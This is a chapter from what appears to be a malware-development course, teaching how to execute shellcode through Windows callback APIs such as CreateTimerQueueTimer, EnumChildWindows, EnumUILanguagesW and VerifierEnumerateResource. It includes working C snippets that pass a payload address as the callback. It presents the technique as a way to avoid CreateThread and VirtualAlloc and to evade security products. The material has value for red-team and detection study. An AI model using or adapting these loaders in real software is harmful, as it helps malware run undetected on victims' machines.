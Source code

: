 # 4.9 Callback Code Execution

### Introduction

Callback functions are used to handle events or to perform an action when a condition is met. They are used in a variety of scenarios in the Windows operating system, including event handling, window management, and multithreading. Microsoft's definition of a callback function is as follows:

_A callback function is code within a managed application that helps an unmanaged DLL function complete a task. Calls to a callback function pass indirectly from a managed application, through a DLL function, and back to the managed implementation._

Several ordinary Windows APIs possess the ability to execute payloads using callbacks. Using them provides a benefit against security solutions since these functions may appear benign and can potentially evade some security solutions.

### Abusing Callback Functions

Windows callbacks can be executed using a function pointer. To run the payload, the address of the payload must be passed instead of a valid callback function pointer. Callback Execution can replace the use of the `CreateThread` WinAPI and other thread-related techniques for payload execution. Additionally, there is no need to use the functions correctly by passing the appropriate parameters. The return value or functionality of these functions is not of any concern.

One important point about callback functions is that they only work in the local process address space and cannot be used to perform remote code injection techniques.

### Sample Callback Functions

The following functions are all capable of execution callback functions.

**[CreateTimerQueueTimer's](https://learn.microsoft.com/en-us/windows/win32/api/threadpoollegacyapiset/nf-threadpoollegacyapiset-createtimerqueuetimer) 3rd parameter**

```c
BOOL CreateTimerQueueTimer(
  [out]          PHANDLE             phNewTimer,
  [in, optional] HANDLE              TimerQueue,
  [in]           WAITORTIMERCALLBACK Callback,      // here
  [in, optional] PVOID               Parameter,
  [in]           DWORD               DueTime,
  [in]           DWORD               Period,
  [in]           ULONG               Flags
);
```

  

**[EnumChildWindows's](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumchildwindows) 2nd parameter**

```c
BOOL EnumChildWindows(
  [in, optional] HWND        hWndParent,
  [in]           WNDENUMPROC lpEnumFunc,    // here
  [in]           LPARAM      lParam
);
```

  

**[EnumUILanguagesW's](https://learn.microsoft.com/en-us/windows/win32/api/winnls/nf-winnls-enumuilanguagesw) 1st parameter**

```c
BOOL EnumUILanguagesW(
  [in] UILANGUAGE_ENUMPROCW lpUILanguageEnumProc,     // here
  [in] DWORD                dwFlags,
  [in] LONG_PTR             lParam
);
```

  

**[VerifierEnumerateResource's](https://learn.microsoft.com/en-us/windows/win32/api/avrfsdk/nf-avrfsdk-verifierenumerateresource) 4th parameter**

```c
ULONG VerifierEnumerateResource(
  HANDLE                           Process,
  ULONG                            Flags,
  ULONG                            ResourceType,
  AVRF_RESOURCE_ENUMERATE_CALLBACK ResourceCallback,     // here
  PVOID                            EnumerationContext
);
```

The following sections will provide detailed explanations for each of these functions. The payload used in the code samples is stored in the `.text` section of the binary. This allows the shellcode to have the required `RX` memory permissions without having to allocate executable memory using `VirtualAlloc` or other memory allocation functions.

### Using CreateTimerQueueTimer

`CreateTimerQueueTimer` creates a new timer and adds it to the specified timer queue. The timer is specified using a callback function that is called when the timer expires. The callback function is executed by the thread that created the timer queue.

The snippet below runs the code located at `Payload` as a callback function.

```c
HANDLE hTimer = NULL;

if (!CreateTimerQueueTimer(&hTimer, NULL, (WAITORTIMERCALLBACK)Payload, NULL, NULL, NULL, NULL)){
	printf("[!] CreateTimerQueueTimer Failed With Error : %d \n", GetLastError());
	return -1;
}
```

### Using EnumChildWindows

`EnumChildWindows` allows a program to enumerate the child windows of a parent window. It takes a parent window handle as an input and applies a user-defined callback function to each of the child windows, one at a time. The callback function is called for each child window, and it receives the child window handle and a user-defined value as parameters.

The snippet below runs the code located at `Payload` as a callback function.

```c
	if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
		printf("[!] EnumChildWindows Failed With Error : %d \n", GetLastError());
		return -1;
	}
```

### Using EnumUILanguagesW

`EnumUILanguagesW` enumerates the user interface (UI) languages that are installed on the system. It takes a callback function as a parameter and applies the callback function to each UI language, one at a time. Note that any value instead of `MUI_LANGUAGE_NAME` flag still works.

The snippet below runs the code located at `Payload` as a callback function.

```c
	if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NULL)) {
		printf("[!] EnumUILanguagesW Failed With Error : %d \n", GetLastError());
		return -1;
	}
```

### Using VerifierEnumerateResource

`VerifierEnumerateResource` is used to enumerate the resources in a specified module. Resources are data that are stored in a module (such as an executable or a dynamic-link library) and can be accessed by the module or by other modules at runtime. Examples of resources include strings, bitmaps, and dialog box templates.

`VerifierEnumerateResource` is exported from `verifier.dll`, therefore the module must be dynamically loaded using the `LoadLibrary` and `GetProcAddress` WinAPIs to access the function.

Note that if the `ResourceType` parameter is not equal to `AvrfResourceHeapAllocation` then the payload will not be executed. `AvrfResourceHeapAllocation` allows the function to enumerate heap allocation, including heap metadata blocks.

```c
	HMODULE hModule = NULL;
	fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;

	hModule = LoadLibraryA("verifier.dll");
	if (hModule == NULL){
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}

	pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateResource");
	if (pVerifierEnumerateResource == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Must set the AvrfResourceHeapAllocation flag to run the payload
	pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAllocation, (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);
```

### Conclusion

This module reviewed several callback functions and demonstrated their usage for payload execution. Callback functions are only beneficial when the payload is running in the memory address space of the local process.

Microsoft's documentation page can be searched to discover additional callback functions. Additionally, a [GitHub repository](https://github.com/aahmad097/AlternativeShellcodeExec) was created that contains a list of the most common callback functions.